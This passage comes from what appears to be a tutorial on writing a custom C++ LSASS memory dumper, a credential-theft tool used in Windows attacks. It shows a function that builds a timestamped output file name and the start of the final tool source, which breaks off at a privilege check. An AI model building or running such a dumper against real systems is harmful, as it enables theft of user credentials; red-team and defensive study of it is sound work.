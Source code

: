 From [the documentation of the tm struct](https://www.cplusplus.com/reference/ctime/tm/) we get the fields we want, in this case the day (*tm_mday*), month (*tm_mon*, we add 1 because it represents the months from January from 0 to 11), year (*tm_year*, we add 1900 because it represents the years from that date), hour (*tm_hour*) and minutes (*tm_minutes*, we append a "0" in case it is less than 10).

To create the final string we will use a Stringstream, *filenamestream*, to concatenate the strings and integers. In case you want to customize the file name, this is the object you should change.


```cpp
string getFileName(string hostname) {
	string extension = ".txt";
	time_t t = time(NULL);
	tm* timePtr = localtime(&t);	
	string minutes;
	if (timePtr->tm_min < 10) {
		minutes = "0" + std::to_string(timePtr->tm_min);
	}
	else {
		minutes = std::to_string(timePtr->tm_min);
	}
	stringstream filenamestream;
	string filename;
	filenamestream << hostname;
	filenamestream << "_";
	filenamestream << timePtr->tm_mday;
	filenamestream << "-";
	filenamestream << timePtr->tm_mon + 1;
	filenamestream << "-";
	filenamestream << timePtr->tm_year + 1900;
	filenamestream << "-";
	filenamestream << timePtr->tm_hour;
	filenamestream << minutes;
	filenamestream << extension;
	filenamestream >> filename;
	return filename;
}
```

<br>

## Final script

The resulting script (which can be found also in [this Github repository](https://github.com/ricardojoserf/lsass-dumper/blob/main/CustomDumper.cpp)) is:

```cpp
#pragma comment (lib, "Dbghelp.lib")
#pragma comment (lib, "Ws2_32.lib")
#pragma warning(disable : 4996)
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <sstream>
#define UNCLEN 512
using namespace std;


BOOL IsElevatedProcess()
{
	BOOL is_elevated = FALSE;
	HANDLE token = NULL;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token))
	{
```